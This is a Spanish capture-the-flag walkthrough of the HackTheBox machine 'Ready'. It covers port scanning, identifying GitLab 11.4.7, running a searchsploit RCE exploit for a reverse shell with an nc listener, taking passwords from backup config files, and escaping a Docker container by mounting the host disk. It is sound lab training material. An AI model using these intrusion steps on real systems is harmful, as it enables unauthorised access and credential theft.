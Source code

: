 # Ready {-}

## Introduccion {-}

La maquina del dia se llama Ready.

El replay del live se puede ver aqui

[![S4vitaar Ready maquina](https://img.youtube.com/vi/DRSMsAKuXX0/0.jpg)](https://www.youtube.com/watch?v=DRSMsAKuXX0)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.220
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.220
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.220 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,5080 10.10.10.220 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 5080   | http          | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.220
```

Es un nginx con gitlab y nos reporta un redirect al http://10.10.10.220/users/sign_in 

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.220:5080` nos redirige automaticamente a la pagina de Sign in de gitlab Community edition.
Siendo un gitlab podemos ver el `robots.txt`.

Vemos routas que pueden ser interesantes como

- /api


En el caso de la routa `/api` si tiramos de esta routa con firefox, vemos que necessitamos logearnos para continuar. Pero en ciertos casos,
hay possibilidades de poder, de forma no authenticada, obtener informaciones relevantes.

Si buscamos en google por `gitlab api`, vemos de que manera podemos utilizar la api para recoger informaciones.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version"
```

Aqui vemos que necessitamos un token y para esto tenemos que crearnos un usuario. Lo hacemos desde la web. Una vez hecho nos podemos loggear
y desde la interface de gitlab, si vamos a Settings, nos podemos crear un token. Lo copiamos y lo añadimos a un header con curl.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version" -H "PRIVATE-TOKEN: 514gTTxhx3qpsBbJbfz9" | jq
```

Aqui vemos que la version de gitlab es la 11.4.7


## Vulnerability Assessment {-}

### Gitlab {-}

```bash
searchsploit gitlab 11.4.7
```

Aqui vemos exploits que nos permite hacer Remote Code Execution.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Gitlab {-}

```bash
searchsploit -m 49257
mv 49257.py gitlab_rce.py
vi gitlab_rce.py
```

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

- url de la maquina victima
- url de la maquina de atacante
- puerto de escucha
- usuario gitlab
- authenticity_token
- cookie de session.

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a `Ctrl+Shift+c > Almacenamiento` y podemos ver el `_gitlab_session`

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script con el commando `python3 gitlab_rce.py`


```bash
whoami
#Output
git
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Podemos ir al directorio `/home/dude` y visualizar la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
echo $PATH
cd /
find \-perm -4000 2>/dev/null
hostname -I
hostname
```

Aqui podemos ver que el comando `hostname -I` nos da una ip que no es la ip de la maquina victima. Estamos en un contenedor

#### Escapar del contenedor {-}

```bash
cd /
ls -la
cd /opt
ls -l
```

Vemos un fichero `/root_pass` en la raiz, y en el directorio opt vemos un directorio `backup` y `gitlab`.

```bash
cat /root_pass
#Output
YG65407Bjqvv9A0a8Tm_7w

su root
Password: YG65407Bjqvv9A0a8Tm_7w

su dude
Password: YG65407Bjqvv9A0a8Tm_7w
```

No es una contraseña.

```bash
cd /opt
ls 
cd /backup
ls -l

cat docker-compose.yml
cat gitlab-secrets.json
cat gitlab-secrets.json | grep "pass"
cat gitlab-secrets.json | grep "user"
cat gitlab.rb
cat gitlab.rb | grep "pass"
```

Hay mucha informacion en estos ficheros. El gitlab.rb contiene un password para el servicio smtp.

```bash
su root
Password: wW59U!ZKMbG9+*#h
whoami
#Output
root
```

Emos podido passar al usuario root pero del contenedor. Aqui algo que todavia suena turbio es este fichero `root_pass`.
Buscamos en los ficheros la coincidencias de este fichero

```bash
grep -r -i "root_pass" 2>/dev/null
```

Aqui vemos un `/dev/sda2` que parece montado sobre un **root_pass**

```bash
df -h
fdisk -l
```

Aqui vemos que en `/dev/sda2` hay un linux filesystem de 18G que se monta directamente con `/root_pass`. Vamos a intentar montarlo.

```bash
mkdir /mnt/mounted
mount /dev/sda2 /mnt/mounted
ls -l
cd /root
cat root.txt
```

Ademas podemos connectarnos como root directamente a la maquina victima con ssh porque tenemos accesso a la id_rsa del usuario root de la maquina
victima.
